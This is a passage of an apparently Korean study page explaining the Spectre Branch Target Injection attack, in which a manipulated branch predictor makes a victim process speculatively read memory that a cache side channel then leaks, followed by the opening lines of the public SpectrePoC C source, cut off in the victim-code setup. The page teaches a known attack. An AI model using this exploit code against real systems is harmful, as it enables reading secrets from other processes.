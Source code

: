 `Branch Target Injection` 은 **분기 위치(Branch Target) 예측 기법**을 이용한다.

**분기 위치 예측**에서는 분기문을 만났을 때 다음으로 이동할 분기 위치를 계산하기 전에 예측된 위치를 사용하는데, 해커가 분기 위치의 예측 과정을 조작하여 해커가 원하는 위치로 분기하도록 만드는 것이다.

해커는 그 값을 알고자 하는 메모리를 읽는 명령어가 있는 위치로 분기되도록 조작을 하고, 희생자 프로세스가 잘못된 분기 예측에 의해서 읽기를 실행하고 나면 (비록 그 결과는 폐기되겠지만), 앞서 설명했던 `Cache-Side-Channel Attack` 기법을 이용해서 그 값을 알아낼 수 있다.

---

# `Proof of Concept`

[Proof of Concept Code]( https://github.com/crozone/SpectrePoC)

```
/*********************************************************************
*
* Spectre PoC
*
* This source code originates from the example code provided in the 
* "Spectre Attacks: Exploiting Speculative Execution" paper found at
* https://spectreattack.com/spectre.pdf
*
* Minor modifications have been made to fix compilation errors and
* improve documentation where possible.
*
**********************************************************************/

#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#ifdef _MSC_VER
#include <intrin.h> /* for rdtsc, rdtscp, clflush */
#pragma optimize("gt",on)
#else
#include <x86intrin.h> /* for rdtsc, rdtscp, clflush */
#endif /* ifdef _MSC_VER */

/* Automatically detect if SSE2 is not available when SSE is advertized */
#ifdef _MSC_VER
/* MSC */
#if _M_IX86_FP==1
#define NOSSE2
#endif
#else
/* Not MSC */
#if defined(__SSE__) && !defined(__SSE2__)
#define NOSSE2
#endif
#endif /* ifdef _MSC_VER */

#ifdef NOSSE2
#define NORDTSCP
#define NOMFENCE
#define NOCLFLUSH
#endif

/********************************************************************
Victim code.
********************************************************************/
unsigned int array1_size = 16;
uint8_t unused1[64];
uint8_t array1[16] = {
  1,
  2,
```